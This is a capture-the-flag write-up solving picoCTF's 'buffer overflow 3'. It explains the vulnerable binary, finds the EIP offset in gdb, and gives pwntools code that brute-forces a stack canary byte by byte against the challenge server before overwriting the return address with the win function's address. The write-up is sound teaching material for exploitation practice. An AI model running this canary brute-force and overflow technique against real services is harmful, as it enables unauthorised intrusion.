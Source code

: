 # buffer overflow 3

**Problem Part**

![Alt text](images/problem.png)

The problem give us 3 thing.

1. Binary file
2. Source
3. Server

First, I tried to connect to the server and observe what does it do.

![Alt text](images/program.png)

The server ask the size of input and take input equal to that size.

I think I can use this input to overflow the buffer. So let's dive into the source code file.

**Source Code Part**

The source code have 3 main interesting function which are

1. win

![Alt text](images/win.png)

This function will be call to print the flag so, we might need to overflow the buffer and control the EIP to point to this function.

2. vuln

![Alt text](images/vuln.png)

This is the main program where the user interact with.

You can see that the program check that the canary is changed or not. If the value of canary is changed, it will not run.

So if we want to overflow the buffer and control EIP, we need to find a way to obtain the value canary.

3. read_canary

![Alt text](images/canary.png)

This function is use to get the canary stored in the directory.


After we observe the source code. Let's find a way to overflow the buffer.

**Testing on the local machine**

I create the file "canary.txt" with text "1234" as canary which is necessary to run the program and try to gdb it.

![Alt text](images/bufsize.png)
![Alt text](images/stack1.png)

From the source code. We have buf with size 64 and canary with length 4.

![Alt text](images/stack.png)

So, the stack might be something like this.

![Alt text](images/gdb2.png)

Then, to overflow, I created the payload with "a"*64 + "1234" + pattern

"a" * 64 is use to fill the variable buf

"1234" is the canary I created on my machine.

pattern is the pattern text that we will use to find the offset of the EIP register.

![Alt text](images/gdb3.png)

And Boom! We got the offset of EIP register. So now we just need to overflow EIP.

![Alt text](images/gdb1.png)

By using the gdb we can get the address of win function which is at 0x08049336.

![Alt text](images/localtest.png)

I try to overflow it on the local machine, and it works.

So let's move to the one on the server.

**Find the canary of the server and obtaining the flag**

```python
from pwn import *
import string

offset1 = b"a" * 64
canary = b""
offset2 = b"a" * 16
eip = p32(0x08049336)
```

This is all varible we obtain on the local machine.

The canary of the server is secret, so we need to figure it out by bruteforce it.

Let's go back to the source code first.

![Alt text](images/can_check.png)

We know that if the canary is not matched, the program will print **Canary Value Corrupt!** and if the canary is matched, it will print **Ok ... Now Where's the Flag**

And we also know that, the program will ask the size of input before taking the input.

So, we can use this to find the canary letter-by-letter.

```python
# find canary
for i in range(1, 5):
    for c in string.printable:
        r = remote("saturn.picoctf.net", 58405)
        r.recvuntil('>')
        r.sendline(str(64+i).encode()) # size the we want to input
        r.recvuntil('>')
        r.sendline(offset1 + canary + c.encode()) # try to add 1 more character
        output = r.recvall().decode()
        if 'Flag' in output: # if the char c is corret canary
            canary += c.encode()
            break
    print(canary)
```

I do the loop for 4 times to find the canary in each place.

We try to bruteforce all character that is possible of the canary by letter and trigger the correct canary by observing the output of the server.

Then after we got the canary, just craft the payload and obtain the flag.

```python
# send the payload and obtain the flag
r = remote("saturn.picoctf.net", 58405)
r.recvuntil('>')
r.sendline(str(64+4+16+4).encode())
r.recvuntil('>')
r.sendline(offset1+canary+offset2+eip)
r.interactive()
```

![Alt text](images/done.png)

For full code [solve.py](solve.py)